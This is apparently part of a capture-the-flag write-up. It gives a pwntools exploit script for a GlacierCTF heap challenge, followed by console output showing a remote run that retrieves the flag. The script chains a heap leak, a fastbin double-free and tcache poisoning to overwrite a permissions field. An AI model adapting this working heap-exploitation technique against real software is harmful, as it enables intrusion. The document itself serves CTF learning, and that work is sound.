 ```python
io = start()

io.sendlineafter(b"username: ", cyclic(0x30))
io.sendlineafter(b"password: ", cyclic(0x30))

create(b"a" * 8)
create(b"b" * 8)
create(b"c" * 8)
delete(3)

show()
io.recvuntil(b"3: ")
heap_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
log.info(f"{heap_leak=:#x}")
heap = heap_leak << 12
log.info(f"{heap=:#x}")
user_chunk = heap + 0x370

# Fill up tcachebins
payload = b"\n".join([cyclic(0x10)] * 7 + [b"quit"])
scream(payload)

# fastbin dup
delete(1)
delete(2)
delete(1)

# Empty out tcachebins
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)

# After tcachebins is empty, the fastbins are dumped into tcachebins
# which enable us to do tcache poisoning with the fastbin dup earlier
fd = mangle(heap + 0x4f0, user_chunk + 0x80)  # perms field
create(p64(fd))
create(b"f" * 8)
create(b"f" * 8)
create(p64(0) + p64(0x41))
admin()

io.interactive()
```

```console
➜ ./solve.py REMOTE
[+] Opening connection to chall.glacierctf.com on port 13373: Done
[*] heap_leak=0x557c4b598
[*] heap=0x557c4b598000
[*] Switching to interactive mode
Verified permissions
Here is your flag: gctf{I_th0ght_1_c0uld_n0t_m3ss_4nyth1ng_up}
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to chall.glacierctf.com port 13373
```
